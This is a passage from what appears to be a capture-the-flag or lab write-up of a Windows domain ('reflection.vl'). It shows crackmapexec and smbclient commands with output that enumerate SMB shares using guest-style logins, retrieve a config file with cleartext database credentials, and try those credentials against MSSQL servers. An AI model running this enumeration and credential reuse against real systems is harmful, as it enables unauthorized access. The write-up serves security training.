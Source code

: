 This doesn't seem to work, but if i provide a non-empty username, i can list the shares on the MS01 host:
```bash
crackmapexec smb 10.10.194.213-215 -u 'hanzbzz' -p '' --shares
SMB         10.10.194.214   445    MS01             [*] Windows 10.0 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.194.215   445    WS01             [*] Windows 10.0 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.194.213   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.194.214   445    MS01             [+] reflection.vl\hanzbzz: 
SMB         10.10.194.215   445    WS01             [-] reflection.vl\hanzbzz: STATUS_NO_LOGON_SERVERS 
SMB         10.10.194.213   445    DC01             [-] reflection.vl\hanzbzz: STATUS_LOGON_FAILURE 
SMB         10.10.194.214   445    MS01             [*] Enumerated shares
SMB         10.10.194.214   445    MS01             Share           Permissions     Remark
SMB         10.10.194.214   445    MS01             -----           -----------     ------
SMB         10.10.194.214   445    MS01             ADMIN$                          Remote Admin
SMB         10.10.194.214   445    MS01             C$                              Default share
SMB         10.10.194.214   445    MS01             IPC$            READ            Remote IPC
SMB         10.10.194.214   445    MS01             staging         READ            staging environment
```
It is also worth noting that the WS01 host returns `STATUS_NO_LOGON_SERVERS` instead of the usual `STATUS_LOGON_FAILURE`.  Anyway, let's inspect the `staging` share, which i have read access to.
```bash
smbclient -U hanzbzz //10.10.194.214/staging
Password for [WORKGROUP\hanzbzz]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jun  7 19:42:48 2023
  ..                                  D        0  Wed Jun  7 19:41:25 2023
  staging_db.conf                     A       50  Thu Jun  8 13:21:49 2023

                6261245 blocks of size 4096. 1759918 blocks available
smb: \> get staging_db.conf 
getting file \staging_db.conf of size 50 as staging_db.conf (0,4 KiloBytes/sec) (average 0,4 KiloBytes/sec)
smb: \> exit
```
Using smbclient with random username and empty password logs me in, and there is one file, `staging_db.conf`. 
```bash
cat staging_db.conf
user=web_staging
password=Washroom510
db=staging
```
## MSSQL
Looking at the name and contents of the file, this looks like database credentials. Let's again use `crackmapexec` and attempt to login to the two MSSQL servers running:
```bash
crackmapexec mssql 10.10.194.213-214 -u 'web_staging' -p 'Washroom510'                                                                                                       
MSSQL       10.10.194.214   1433   MS01             [*] Windows 10.0 Build 20348 (name:MS01) (domain:reflection.vl)                                                             
MSSQL       10.10.194.213   1433   DC01             [*] Windows 10.0 Build 20348 (name:DC01) (domain:reflection.vl)                                                             
MSSQL       10.10.194.214   1433   MS01             [-] ERROR(MS01\SQLEXPRESS): Line 1: Login failed for user 'MS01\Guest'.                                                     
MSSQL       10.10.194.213   1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated a
uthentication.
```